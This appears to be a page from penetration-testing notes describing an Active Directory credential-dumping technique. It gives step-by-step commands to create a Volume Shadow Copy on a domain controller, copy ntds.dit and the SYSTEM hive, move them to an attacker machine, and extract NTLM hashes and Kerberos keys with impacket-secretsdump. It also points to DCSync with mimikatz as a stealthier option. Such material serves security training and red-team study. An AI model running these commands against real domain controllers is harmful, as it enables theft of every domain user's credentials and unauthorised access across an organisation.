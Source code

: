 # Shadow Copies

The **Volume Shadow Service (VSS)** in Windows allows for the creation of snapshots of volumes or files. An attacker can leverage the `vshadow` utility to create a shadow copy of the AD database, `ntds.dit`, from a DC. After extracting the database and SYSTEM hive, they can use tools like `impacket-secretsdump` to dump user credentials, including NTLM hashes and Kerberos keys, offline.

> _The **SYSTEM Hive** is a registry file that stores system-level information in Windows, which is required to successfully decrypt the `ntds.dit` database for credential extraction._

In our scenario we will login to `DC1` as `jeffadmin`.

{% tabs %}
{% tab title="1. Shadow Copy" %}
Create a shadow copy of the `C:` drive on `DC1` with `vshadow.exe` (`-nw` disables writers,  `-p`  stores the copy on disk).

```powershell
vshadow.exe -nw -p C:
```
{% endtab %}

{% tab title="2. Copy DB" %}
Once the snapshot is created, we will use the shadow copy device name to copy `ntds.dit` to the local disk.

{% code overflow="wrap" %}
```powershell
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```
{% endcode %}
{% endtab %}

{% tab title="3. Extract SYSTEM hive" %}
Extract the `SYSTEM` registry hive.

```powershell
reg.exe save hklm\system c:\system.bak
```
{% endtab %}

{% tab title="4. Extract Creds" %}
&#x20;Transfer the `.bak` files to our attacker machine and extract the credentials.

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
{% endcode %}
{% endtab %}
{% endtabs %}

> [_DCSync_](../permissions/dcsync.md) _with `mimikatz` is a stealthier method for extracting user hashes from a DC without leaving as obvious a trail._
